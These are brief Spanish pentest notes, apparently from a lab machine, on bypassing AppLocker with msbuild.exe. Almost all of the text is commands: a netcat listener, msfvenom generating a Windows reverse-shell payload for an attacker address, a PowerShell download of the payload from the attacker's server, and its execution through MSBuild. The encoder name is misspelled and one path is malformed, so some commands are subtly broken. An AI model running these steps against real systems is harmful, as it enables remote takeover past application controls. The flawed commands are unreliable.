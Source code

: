 ** AppLocker Bypass **
https://laptrinhx.com/bypass-application-whitelisting-using-msbuild-exe-multiple-methods-2213317560/

> Archivo XML: https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17

> En máquina objetivo:
> `cd C:Users\amanda\appdata\local\tmp`
> Netcat en máquina atacante:
> `rlwrap nc -nlvp 443`
> Crear nuestro shellcode:
> `msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -e x86/shitake_ga_nai -i 20 -f csharp -o rev_session_443.cs -v shellcode`
> Copiar shellcode y pegarlo en el fichero xml
> Transferir a la máquina objetivo: 
> `IWR -URI http://10.10.14.6:8000/executes_shellcode.xml -OutFile rev.csproj`
> Ejecutar en máquina objetivo:
> `C:\Windows\Microsoft.Net\framework\v4.0.30319\msbuild.exe rev.csproj`

